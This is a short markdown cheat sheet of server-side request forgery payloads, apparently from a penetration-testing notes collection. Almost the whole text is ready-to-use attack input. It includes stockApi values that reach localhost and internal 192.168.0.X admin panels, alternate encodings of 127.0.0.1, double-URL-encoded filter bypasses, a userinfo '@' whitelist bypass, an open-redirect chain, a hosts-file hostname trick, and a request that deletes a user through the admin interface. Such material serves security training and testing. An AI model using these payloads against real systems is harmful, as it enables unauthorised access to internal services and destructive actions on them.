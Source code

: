 ```yaml
---
title: SSRF Examples
desc: Examples of Server Side Request Forgery.
tags: [SSRF, Web]
alts: []
website:
render_with_liquid: false
---
```


## Basic localhost

```html
POST /stock HTTP/1.1
...

stockApi=http://localhost/

<!-- IP address -->
stockApi=http://127.0.0.1/
<!-- Alternatives for 127.0.0.1 -->
stockApi=http://2130706433/
stockApi=http://017700000001/
stockApi=http://127.1/

<!-- Operate as administrator -->
stockApi=http://localhost/admin
stockApi=http://localhost/admin/delete?username=michael
<!-- Double URL encoding -->
stockApi=http://127.1/%25%36%31dmin
```

<br />

## Backend URL (192.168.0.X)

```html
POST /stock HTTP/1.1
...

stockApi=http://192.168.0.23/admin
stockApi=http://192.168.0.68:8080/admin/delete?username=michael
```

<br />

## Bypass whitelisted URL

```html
POST /stock HTTP/1.1
...

stockApi=http://localhost@vulnerable.com/
<!-- Double URL encoding -->
stockApi=http://localhost%25%32%33@vulnerable.com/
```

<br />

## Open Redirection

```html
POST /stock HTTP/1.1
...

stockApi=/post/next?path=http://localhost/admin
```

<br />

## Hostname Bypass

```sh
# Add to /etc/hosts
<target-ip>  sub.vulnerable.com

# Restart hostname
sudo systemctl restart systemd-hostnamed

# ------------------------------------------------------

# Then, access
https://vulnerable.com/?proxy=https://sub.vulnerable.com
```